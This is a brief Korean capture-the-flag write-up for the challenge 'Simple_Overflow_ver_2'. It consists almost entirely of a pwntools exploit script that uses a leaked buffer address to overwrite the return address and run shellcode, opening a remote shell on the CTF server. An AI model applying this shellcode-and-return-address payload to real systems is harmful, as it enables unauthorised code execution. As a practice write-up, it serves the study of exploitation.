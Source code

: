 # Simple_Overflow_ver_2

data에 아무 값이나 입력하면 버퍼의 주소를 얻을 수 있다.   
이 값을 이용해서 BOF를 하면 된다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

context.arch = 'i386'
shellcode = asm(shellcraft.sh())

p.sendlineafter('Data : ', 'AAAA')
buf = int(p.recvuntil(':')[:-1],16)

p.sendlineafter('(y/n)', 'y')

payload = ''
payload += shellcode
payload += '\x90'*(136-len(shellcode)+4)
payload += p32(buf)

p.sendlineafter('Data : ', payload)
p.interactive()
```
